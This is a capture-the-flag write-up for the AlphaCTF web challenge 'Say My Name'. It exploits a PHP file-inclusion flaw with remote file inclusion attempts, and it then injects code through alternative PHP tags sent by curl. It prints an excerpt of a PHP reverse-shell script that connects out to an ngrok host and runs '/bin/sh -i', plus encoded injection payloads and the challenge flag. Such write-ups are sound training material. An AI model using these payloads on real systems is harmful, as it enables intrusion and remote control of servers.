 # Say My Name

## Description

> My name is flag
> 
> Can you say it? [say_my_name.zip](saymyname.zip)
> 
> https://challenges.ctf.alphabit.club:1404 

## Write-Up

When checking the code given, we can see that the `include` instruction is miss used, which leads to a **File Inclusion Vulnerability**.

Let's try to perform an **RFI (Remote File Inclusion)** for that :

### Tests

create a `malicious.php` to read the flag and `red.php` for reverse shell files :

```php
<?php echo $flag ?>
```

```php
<?php


set_time_limit (0);
$VERSION = "1.0";
$ip = 'c2d8-105-102-243-155.eu.ngrok.io';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

...

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>  
```

Then serve it using ngrock :

```
ngrok http 8080
```

We need a python server :

```
python3 -m http.server 8080 
```

**Note :** Run both commands in the directory you want to serve.

We get :

<img src="./1.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

Now let's give it to the website :

```
https://challenges.ctf.alphabit.club:1404/?src=https://c2d8-105-102-243-155.eu.ngrok.io/malicious.php
```

Appearantly this won't work. And this is because the presence of `"data://text/plain;base64,"`, which enables us to inject directly `php` code in the `src` property. With double Encoding to bypass the `?` we get:

```
<?php echo $flag ?>
```

With this we get :

```
hmmm
```

```
%3c%3f%70%68%70%20%65%63%68%6f%20%22%24%66%6c%61%67%22%20%3f%3e%0a
```

With this we get :

```
hmmm
```

```
%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%36%35%25%36%33%25%36%38%25%36%66%25%32%30%25%32%32%25%32%34%25%36%36%25%36%63%25%36%31%25%36%37%25%32%32%25%32%30%25%33%66%25%33%65%25%30%61
```

But with that we get

```
my name is: %3c%3f%70%68%70%20%65%63%68%6f%20%22%24%66%6c%61%67%22%20%3f%3e%0a
```

Unfortuantly, the code isn't executed, so we move to next strategy.

### Solution

The solution is actually to use an alternative for the `php` `<?php ?>` wrappings.

For that we have th following :


```
<% echo "$flag"; %>

<script language="php"> echo "$flag"; </script>
```

Lets url encode (a must do) them and try send them :

 - Url encoding of each :

```
%3C%25%20echo%20%22%24flag%22%3B%20%25%3E

%3Cscript%20language%3D%22php%22%3E%20echo%20%22%24flag%22%3B%20%3C%2Fscript%3E%20
```

 - Sending requests :

```
└─$ curl "https://challenges.ctf.alphabit.club:1404/?src=%3C%25%20echo%20%22%24flag%22%3B%20%25%3E"
  

my name is:
<% echo "$flag"; %>


└─$ curl "https://challenges.ctf.alphabit.club:1404/?src=%3Cscript%20language%3D%22php%22%3E%20echo%20%22%24flag%22%3B%20%3C%2Fscript%3E%20"
  

my name is:
AlphaCTF{7hanK_G0D_7HIs_15_NO7_AvA1lAbLe_1N_n3W3r_vErSIOns}    
```


## Flag

AlphaCTF{7hanK_G0D_7HIs_15_NO7_AvA1lAbLe_1N_n3W3r_vErSIOns}

## More Information

 - `include`, manual : https://www.php.net/manual/en/function.include.php
 - File Inclusion Vulnerability : 
   - https://brightsec.com/blog/file-inclusion-vulnerabilities/
   - https://tutorialboy.hashnode.dev/php-a-file-inclusion-vulnerability
   - https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb
 - Bypass strpor : https://bugs.php.net/bug.php?id=76671
 - Remote File Inclusion : https://www.invicti.com/learn/remote-file-inclusion-rfi/
 - Catch reverse Shell on the net : https://systemweakness.com/how-to-catch-a-reverse-shell-over-the-internet-66d1be5f7bb9
 - PHP openning and closing tags : https://www.php.net/manual/en/language.basic-syntax.phptags.php
 - Alternatives for php openning and closing tag :
   - https://wiki.php.net/rfc/remove_alternative_php_tags
   - https://www.phpforkids.com/php/php-syntax-opening-closing-tags.php
